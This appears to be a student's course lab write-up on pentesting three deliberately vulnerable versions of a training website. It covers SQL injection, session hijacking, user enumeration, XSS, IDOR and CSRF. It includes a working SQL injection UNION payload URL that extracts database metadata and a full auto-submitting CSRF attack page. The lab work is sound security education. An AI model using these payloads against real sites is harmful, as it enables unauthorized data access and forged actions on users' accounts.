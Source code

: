 # Project 8 - Pentesting Live Targets

Time spent: 7 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

### Vulnerability #1: __SQL Injection and Extra Bonus__
By using ``` https://104.155.169.96/blue/public/salesperson.php?id=%27%20union%20select%201,(select%20concat(%222select%20database()%20is%20%22,%20(select%20database()))),(select%20concat(%22-----------------3select%20user()%20is%20%22,%20(select%20user()))),(select%20concat(%224select%20version()%20is%20%22,%20(select%20version()))),5%20--%20 ``` I can make the id query come back with some unioned table and database metadata - things an attacker should not have access to!
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/blue1.gif)

### Vulnerability #2: __Session Hijacking/Fixation__
By using the built in session changing tool, I can steal the session ID from one user and login as them without credential checking.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/blue2.gif)

## Green

### Vulnerability #1: __User Enumeration__
Using logins that have a real username leads to a bolded error message, but logins using nonexistent username leads to an unbolded error message.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/green1.gif)

### Vulnerability #2: __Cross Site Scripting__
By using script alert, an attacker can add a comment which when viewed leads to execution of arbitrary javascript.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/green2.gif)
![](https://github.com/nke5ka/codepathWeek8/blob/master/green2b.gif)

## Red

### Vulnerability #1: __Insecure Direct Object Reference__
A non logged in user can access any salesperson by changing their ID - even ones not listed.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/red1.gif)
    
### Vulnerability #2: __Cross Site Request Forgery__
By accessing a hacker's page with the following html, a logged in user can unknowingly change values via post request to be the values the hacker desires.
    
![](https://github.com/nke5ka/codepathWeek8/blob/master/red2.gif)
    
```
<html>
<!-- <body onload="document.form2Sub.submit()"> -->
<iframe name="secretsarenofun" src="#" style="display: none;">
</iframe>
<form action="https://104.155.169.96/red/public/staff/countries/edit.php?id=2" method="post" name="form2Sub" id="formYesPls" target="secretsarenofun">
    <input type="hidden" name="name" value="Canadia555HACKED" />
    <input type="hidden" name="code" value="CA" />
</form>
Welcome to my not sketchy site - enjoy visiting, don't look at the source code or even think this is weird or sketchy.  Oh hai there.
<!--</body>-->
<script>
var sketchyform = document.getElementById("formYesPls");
sketchyform.style.display = "none";
sketchyform.submit();
</script>
</html>
```

## Notes
Lots of fun!
Only Firefox by default allows xframeoptions to load offsite
Bonus Objective 1: SQL goes beyond just showing the database injection, but also get important information about the system.

